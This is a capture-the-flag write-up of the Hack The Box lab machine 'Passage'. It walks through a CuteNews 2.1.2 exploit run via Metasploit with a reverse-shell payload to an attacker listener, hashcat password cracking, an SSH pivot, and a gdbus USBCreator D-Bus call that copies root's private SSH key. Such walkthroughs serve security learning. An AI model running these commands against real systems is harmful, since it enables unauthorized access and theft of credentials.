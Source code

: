 # Passage

![Logo](https://www.hackthebox.eu/storage/avatars/ec88bbe570fd512ab370208e5139bb41.png)

Passage is a box at 10.10.10.206 and rated 4.3 oriented on real life situations.  
This box is at a 50% hard so it's gonna be a lotta fun

## First inspection

As always let's do a nmap to grab some informations!  
So what we got: ssh, http(apache), and a linux kernel!  
Let's go to the website so!  

## Cutie Cute Website

So first information we have a website basically with articles, comments and a RSS Flux
We can send email to the writers of the articles, write comments and apparently smiley .. (ntg amazing)  
One article stand out from the others which is FAIL2BAN, a pretty well known technique that consist of banning in case of too many requests from on IP.  
So we'll go easy with the approach!  
At the bottom of the page there is the mention of "CuteNews" and boom CutePHP and exploitDB returns me an exploit for the 2.1.2 version so let's quickly search the actual version on this website.  
After a quick look on their GH repo, we can access login via *link/CuteNews* so let's go and BOOOOOM we have the mention below saying **Powered by CuteNews 2.1.2 © 2002–2020 CutePHP.**  

The Exploit we're gonna use is the number **46698** but there are others, feel free to use them.  

## First Exploit of the day

After setting up our metasploit and added our module (46698), we can start set up our settings like so:

```sh
   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   pwn              no        Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.206     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /CuteNews        yes       Base CutePHP directory path
   USERNAME   pwn              yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.106     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

```

And now we have a meterpreter, it was pretty easy doh !  
Let's get our first flag then, the user flag!  

## Privilege Escalation

By going under */home/* we see two users, **nadav and paul** but of course we don't have access to anything  
Let's get back to our */var/www/html/CuteNews/* folder and let's try to see if there are users creds !  
And under this folder we do have a */cdata/users* with a loooot of files and 2 different:

- users.txt which is empty.  
- lines which contains stg that look like hashed sentence with base64.  

After some base64decode on them we have some json !  
As i don't want to list all of them to find one of my user, imma go for the largest one (if you've a website i'm pretty sure that your own profile is complete !).  

So the most complete profil are: paul-coles (we got him!), kim-swift, sid-meyer, admin, egree5
As we want the user token first let's start with paul! (but keep admin not to far)  
In the information there is one called *64* and i guess this is a hashed password!  let's break it with hashcat and rockyou.txt  
`hashcat -m 1400/17400 paul.hash /usr/share/wordlists/rockyou.txt --show --force` and the password is "atlanta1" so my guess for SHA512 was right.  
BEFORE ANYBODY WANTS TO INSULT ME BC OF THIS SHORTCUT:

- I do suck at finding which encryption method is used and most of the time rely on the big one (sha512-md5-shaX) and judge by the look of it
- If you're experienced with finding hash type (or have tool) --> CONTACT ME  
- Yes I'm actually working on this

## Get Paul & Nadav account

So I did struggle with this one but not for a normal reason lol,  
I had som trouble with metasploit who just fucked me with the meterpreter shell, so I simply changed the payload to a simple reverse tcp shell!  
First let's get this **user** key  
Basically once in, I did a ps and saw a lot of sshd process (I noticied them bc I'm working on them at the uni lol)
And in the default ssh authorized_keys file, i saw the other user that I noticied earlier so let's just ssh directly to it, praying there is no passphrase (ALWAYS USE A PASSPHRASE GODDAMNIT)  

## Jump from Nadav to root  

Alright now start the real shit, i'm not gonna lie, a friend oriented me on where to search as I were stuck on this one for quite a long and I've learned a loooot by solving this one!  
My friend told me to have a look at the usb sooo at first I looked at the connected media but nothing worthy, and lost in my tentative I've looked desperetly to `ps aux` once again.  
AND the truth appeared, it was called *2421*, basically a process called /usb-creator  
In less than three seconds, I found stg by typing *"usbcreator exploit"* and BOUM there is a vulnerability with the DBUS, so I'm not really good at DBUS (and haven't really worked with before except for a tiny project) so it took me kinda long to write the right command!  

Basically this usbcreator doesn't care of who's calling the process and just execute the copy, so why can't I copy the root ssh key to a file with that ?? Yeah that's exactly what I did....  

### What is a DBUS

Let's first clarify things before going any further, DBUS means Desktop Bus, which is an Inter-Process Communication, and a Remote Procedure Call (THX WIKIPEDIA FOR THIS).  
But concretly how is it useful ?  As I said upper, that's a communcation between process on a same machine, so I can of course call a function to an already existing process, in this case this is my usbcreator  
This way I can tell what to do to my already existing process!!
Let's do it then.  

Herethis is a GNOME process and so we're gonna interact with the GDBUS (Gnome ModBus). Let's write our command

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/just_got_pwned true
```

I based myself on [this](https://www.exploit-db.com/exploits/36820) to recreate a call that match my needs. A really long but passionating article can be found [here](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/) and basically explain you completly how to do it !!  

And then the end is really soon, just use your file at /tmp/just_got_pwned as your identification key to root@10.10.10.206 to access a root account and BOOM, root.txt is waiting for you!!  

## Conclusion

This box was a lotta fun to do!! I really recommend it to everybody as it isn't a really horrible one, pretty logic and understandable but with still a good challenge behind !!  
I spend a long time understanding DBus but it was worthy and honestly learned a lot, maybe gonna deep down later bc there is a lot to see and to do with !!  
